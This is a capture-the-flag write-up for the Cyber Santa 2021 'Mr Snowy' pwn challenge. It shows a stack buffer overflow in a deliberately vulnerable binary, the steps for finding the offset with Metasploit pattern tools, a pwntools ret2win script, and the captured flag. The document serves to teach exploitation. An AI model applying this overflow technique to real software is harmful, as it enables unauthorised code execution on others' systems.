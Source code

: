 # Cyber Santa 2021 – Mr Snowy

- **Category:** Pwn Day 1
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given a binary called `mr_snowy`. On running the binary we see that we are to figure out the password to deactivate the secret camera.

![Execution of Binary](./images/1.png)

Running `checksec --file=mr_snowy` showed that there was no stack canary, and no PIE, and NX was enabled.

## Solution

Decompiling the executable in `ghidra` gave us 2 main functions to look at.

Firstly, the success condition for getting the flag was to be able to call the `deactivate_camera` function which would then print the flag.

```
void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;

  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,58,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}
```

The second function was the vulnerability of note. (Note: I renamed a few variables for clarity)

```
void investigate(void)

{
  int integer_option;
  char my_option [64];

  fflush(stdout);
  printstr(&DAT_00401878);
  fflush(stdout);
  read(0,my_option,264);
  integer_option = atoi(my_option);
  if (integer_option == 1) {
    puts("\x1b[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
                    /* WARNING: Subroutine does not return */
    exit(22);
  }
  ....
  ....
}
```

A character array of 64 bytes was declared, but 264 bytes was being read in which meant that there was opportunity for buffer overflow.

I used metasploit's exploit scripts to generate a cyclic pattern to generate a de Bruijn sequence (basically given a substring, you can figure out exactly where this substring occurred).

`./pattern_create.rb -l 76`

Using the generated pattern and passing it into the executable when they prompted to choose between investigate and breaking it led to segmentation fault. By running `sudo dmesg` I was able to figure out what was the overwritten instruction pointer.

```
[ 1282.712616] mr_snowy[2354]: segfault at a41346341 ip 0000000a41346341 sp 00007ffd8b0b4df0 error 14
[ 1282.712621] Code: Bad RIP value.
```

Using `./pattern_offset.rb -l 76 -q a41346341`, showed that the offset was 72.

Using all this information we need to craft a payload that will execute the `deactivate_camera` function after we overflow the buffer. Using `readelf -s mr_snowy`, I was able to get the required function address. I had some trouble manually typing in the address because one of the encoded characters was impossible to write ("\x11"), so I had to use a proper script to send the payload.

```
from pwn import *
elf = ELF('../mr_snowy')
offset = 72
payload = flat({offset: elf.symbols.deactivate_camera})
p = elf.process()
p.recvuntil(b'>')
p.sendline(b'1')
p.recvuntil(b'>')
p.sendline(payload)
p.interactive()
```

Trying it out on the remote server gives the flag

```
HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}
```

## Thoughts

- This was my first binary exploitation kind of challenge and really so many things learnt
- This marks the entrance of the rabbit hole of binary exploits that I was about to enter.
